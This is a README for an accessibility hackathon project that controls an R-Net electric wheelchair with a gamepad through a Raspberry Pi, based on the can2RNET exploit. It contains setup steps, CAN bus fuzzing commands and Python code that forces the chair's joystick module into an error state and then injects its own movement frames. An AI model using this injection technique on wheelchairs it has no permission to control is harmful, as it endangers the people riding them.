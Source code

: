 MHK: control wheelchair hack based on the can2RNET project 
================================================
- This hack exploit is part of "the Magic Joystick" project led by a french solidarity association: MyHumanKit - https://myhumankit.org/ 
- It occured during the Fabrikarium hackaton held in Mureaux, october 2019, with collaboration of MyHumanKit & ArianeGroup.
- Big credits to the 'can2RNET' github owners (Stephen Chavez & Specter) and their contributors to have documented and shared their exploit.


The complete documentation is available in french here : 
http://wikilab.myhumankit.org/index.php?title=Projets:Can2RNET

[![IMAGE ALT TEXT](http://img.youtube.com/vi/GE2F3cAntdk/0.jpg)](http://www.youtube.com/watch?v=GE2F3cAntdk "Prise de controle à distance d'un fauteuil roulant électrique")

Getting Started
=====================
Hardware:
- Raspberry Pi 3 (Model B+)
- PiCan2 board (not used)  
- R-Net cable 
- Xbox360 gamepad 

Configure:
1. /boot/config.txt
```
dtparam=spi=on 
dtoverlay=mcp2515-can0,oscillator=16000000,interrupt=25         
dtoverlay=spi-bcm2835
```
2. /etc/network/interfaces
```
allow-hotplug can0
iface can0 can static
        bitrate 125000
        up /sbin/ip link set $IFACE down
        up /sbin/ip link set $IFACE up
```
3. load /etc/modules
```
mcp251x
can_dev
```
4. Reboot Raspberry, check 'can0' interface is set ( use `ifconfig`)

5. Strip R-Net cable in half and connect chair to pican2:
```
white is can high
blue is can low
black is gnd
red is +vin
```

6. Install CAN-UTILS
```
sudo apt-get install can-utils
```
```
$ candump can0 -L   # -L puts in log format
(1469933235.191687) can0 00C#
(1469933235.212450) can0 00E#08901C8A00000000
(1469933235.212822) can0 7B3#
(1469933235.251708) can0 7B3#

$ cansend can0 181C0D00#0840085008440840  #play a tune

$ cangen can0 -e -g 10  -v -v     #fuzz buss with random extended frames+data

$ candump -n 1 can0,7b3:7ff     #wait for can id 7B3
```

Monitor & Send RNET frames  
================================
Check original 'can2RNET' documentation first :
- doc/canPPT.pdf
- doc/RNETdictionary_*.txt 

Spy CAN frames while :
- powering on JSM's joystick 
- moving JSM's joystick
- activating light, horn, ...

Identify period JSM heartbeat frame:
- "03c30F0F#8787878787878787" @10Hz

Identify joystick control frame:  
- "02000000#XxYy" @100Hz (device JSM n°0) 
- "02001000#XxYy" @100Hz (device JSM n°1) 

Induce JSM in error and send joystick frame on behalf of JSM
- Send at least 3 times in less than 1 ms this frame: "0c000000#"
- Send joystick frame with the same id "02000000#XxYy" 
```python
import can2RNET
from common import FRAME_JSM_INDUCE_ERROR, createJoyFrame

# send in less than 1ms theses frames to induce JSM in error
for _ in range(5):
   can2RNET.cansend(cansocket, FRAME_JSM_INDUCE_ERROR)

# now let's take over by sending our own
# joystick frame @100Hz

mintime = .01
nexttime = time() + mintime
while True:
   # get new XY joystick increment
   joystick_x, joystick_y = get_new_joystick_position()
   # building joy frame
   joyframe = createJoyFrame(joystick_x, joystick_y)
   # sending frame
   can2RNET.cansend(cansocket, joyframe)
   # .. at 100 Hz ..
   nexttime += mintime
   t = time()
   if t < nexttime:
      sleep(nexttime - t)
   else:
      nexttime += mintime
```

JSMFollow - (not reproduced) 

JSMEmulate - (not reproduced)


Control wheelchair using any usb gamepad 
=========================================
Launch this script on the raspberrypi  
`python3 runJSMExploit.py`
